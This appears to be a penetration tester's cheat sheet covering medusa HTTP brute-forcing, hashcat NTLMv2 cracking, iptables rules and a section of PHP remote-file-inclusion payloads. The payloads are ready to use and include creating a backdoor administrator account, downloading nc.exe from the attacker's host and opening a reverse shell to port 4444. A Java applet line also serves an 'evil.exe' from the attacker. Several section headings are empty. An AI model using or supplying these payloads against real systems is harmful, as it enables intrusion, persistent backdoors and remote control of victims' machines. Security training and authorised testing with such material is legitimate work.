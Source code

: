 #Caracking HTTP
medusa -h $tgt -n 9505 -u bethany -P mutated.txt -M http -m DIR:/~Public -T 10

------------------HASHCAT---------------
hashcat -h |grep -i ntlm
hashcat -m 5600 thehash.ntlmv2

# Hashcat with Salted with MD5


==========================================================================================
                LATERAL MOVEMENT
==========================================================================================
# 


==========================================================================================
				IP TABLES
==========================================================================================
# Drop all all TCP traffic destined for port 13327 that is NOT from loopback
iptables -A INPUT -p tcp --destination-port 13327 \! -d 127.0.0.1 -j DROP

iptables -A INPUT -p tcp --destination-port 4444 \! -d 127.0.0.1 -j DROP

==========================================================================================
				SCRATCH PAD
==========================================================================================
echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://$me:80/evil.exe"></applet>' > /var/www/html/java.html







Sam's LFI Tips

Assumptions
------------
Attacker's web directory is: /var/www/html/
Attacker IP is $me
Created a "RFI" folder to store all text files generated.
A copy of nc.exe is located in a folder named Software within the web directory

Commands to generate txt files
--------------------------------
Return IP Config - echo '<?php echo shell_exec("ipconfig");?>' > /var/www/html/RFI/php_w_ipconfig.txt
Add a local user - echo '<?php echo shell_exec("net user /add evil-guy password");?>' > /var/www/html/RFI/php_w_addUser.txt
Add local user to local admin group - echo '<?php echo shell_exec("net localgroup administrators evil-guy /add");?>' > /var/www/html/RFI/php_w_addUserToGroup.txt
Check the permissions of the current - echo '<?php echo shell_exec("CACLS .");?>' > /var/www/html/RFI/php_w_currDir_permissions.txt
Download NC.exe from attack host - echo '<?php echo file_put_contents("nc.exe", fopen("http://$me/software/nc.exe", 'r'));?>' > /var/www/html/RFI/php_w_downloadNcExe.txt
Send Reverse Shell from target to attacker - echo '<?php echo shell_exec("nc -nv $me 4444 -e cmd.exe");?>' > /var/www/html/RFI/php_w_reverse_shell.txt
Whoami - echo '<?php echo shell_exec("whoami");?>' > /var/www/html/RFI/php_w_whoami.txt
Get hostname echo '<?php echo shell_exec("hostname");?>' > /var/www/html/RFI/php_w_hostname.txt
Netstat - echo '<?php echo shell_exec("netstat -ano");?>' > /var/www/html/RFI/php_w_netstat.txt
Firewall Status - echo '<?php echo shell_exec("netsh advfirewall show allprofiles state");?>' > /var/www/html/RFI/php_w_firewallStatus.txt
NSLookup - echo '<?php echo shell_exec("nslookup");?>' > /var/www/html/RFI/php_w_nslookup.txt
